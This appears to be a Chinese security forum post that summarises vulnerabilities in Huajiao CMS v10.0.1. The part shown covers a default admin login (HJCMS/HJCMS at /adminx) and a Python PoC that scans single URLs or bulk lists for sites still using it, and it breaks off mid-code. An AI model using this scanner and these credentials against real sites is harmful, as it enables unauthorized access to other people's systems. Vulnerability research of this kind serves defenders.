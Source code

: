 花椒CMS渗透测试后的漏洞总结
===============

前言
--

因为放了寒假，时间比较充裕，于是就开始学习网络安全。不学还好，结果一学就沉迷于此不可自拔。最近有个团队找到我，合作了一些内容。其中有一项就是渗透一个使用花椒CMS的网站，于是我欣然接受。经过两个小时的努力，摸到了花椒CMS的提权漏洞。  
因为好奇原因，就从网上下载了一套源码，自己搭建环境测试了一下。并通过代码审计进一步挖掘，整理了一些漏洞，供大家学习。  
源代码下载：<http://huajiaocms.com/index.html>  
**版本：v10.0.1 2021.02.27**

0x01 弱口令漏洞
----------

### 漏洞复现

漏洞位置`ip/adminx`  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-d0fd702df5493645cb91102bedbaf2b5bb5a5808.png)  
**账号**：HJCMS/HJCMS

### 漏洞网站批量寻找PoC

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-5b167cfda0da36c3c7f4379bb12e5ca30afa1928.png)  
如果网站存在使用默认账号口令的情况，就会弹窗提醒网站使用者“`您当前使用的是默认密码！请尽早修改默认密码换上更加复杂的密码，避免被有心人入侵`”，这个就可以作为判断**是否使用默认账号口令的重要依据。**  
先上完整版Python编写的PoC

```python
import time
import requests
import os
from requests.sessions import session
os.system('')
from requests.packages.urllib3.exceptions import InsecureRequestWarning
# 禁用安全请求警告
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
import argparse
class poc():
    def title(self):
        print('''
+-----------------------------------------------------------------+
花椒CMS 弱口令检测
单个检测：python poc.py -u url
批量检测：python poc.py -f 1.txt
+-----------------------------------------------------------------+
''')
    def poc(self, target_ur):
        url = f'{target_ur}/adminx/'
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36'}
        try:
            res = requests.get(url=url, headers=headers,verify=False,timeout=10)
            return res
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)
    def main(self, target_url, file):
        self.title()
        count=0
        if target_url:
            res=self.poc(target_url)
            if res.status_code==200 and "当前使用的是默认账号" in res.text:
                print(f'\033[31m[+] {target_url} 存在弱口令：HJCMS/HJCMS \033[0m')
        if file:
            for url in file:
```